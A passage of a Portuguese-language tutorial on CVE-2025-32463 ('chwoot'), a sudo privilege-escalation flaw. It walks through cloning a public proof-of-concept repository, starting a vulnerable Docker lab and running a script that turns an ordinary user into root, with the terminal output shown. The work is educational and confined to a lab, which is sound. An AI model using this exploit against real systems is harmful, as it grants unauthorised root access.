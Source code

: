 ## Como você pode testar isso?

Aposto 15 kwanzas que você quer testar por conta o CVE 2025-32463, e é isso que vamos fazer agora.

### Clonando o repositório

Não vamos executar o PoC no nosso dispositivo, para isso, vamos utilizar uma máquina (docker) disponível no repositório abaixo:

```bash
git clone https://github.com/pr0v3rbs/CVE-2025-32463_chwoot.git

```

### Entrando no ambiente

Nosso querido pr0v3rbs fez um Dockerfile com uma máquina vulnerável ao CHWOOT, basta que rodemos o run.sh

```bash
cd CVE-2025-32463_chwoot
./run.sh

```

### Testando

Para não termos o trabalho, a máquina já vem com um .sh que faz tudo que ensinei no exemplo, de forma simples, apenas rodamos o .sh e temos acesso root!

```
pwn@f151c56ac100:~$ whoami;groups
pwn
pwn
pwn@f151c56ac100:~$ ./sudo-chwoot.sh 
woot!
root@f151c56ac100:/# whoami;groups
root
root pwn
root@f151c56ac100:/# 

```

## Conclão

Nesse paper, entendemos como escalar privilégios de maneira até que simples, sem muito esforço, apenas explorando uma vulnerabilidade.
Caso você fique com qualquer dúvida, sinta-se livre para me contactar no discord: `altof_howosec`!

----------

> Refs:
[NVD](https://nvd.nist.gov/vuln/detail/cve-2025-32463)
[Adapta ONE](https://adapta.org/)
[pr0v3rbs](https://github.com/pr0v3rbs/CVE-2025-32463_chwoot)
Todo o texto é de minha autoria, todos os mermaids foram gerados por IA.

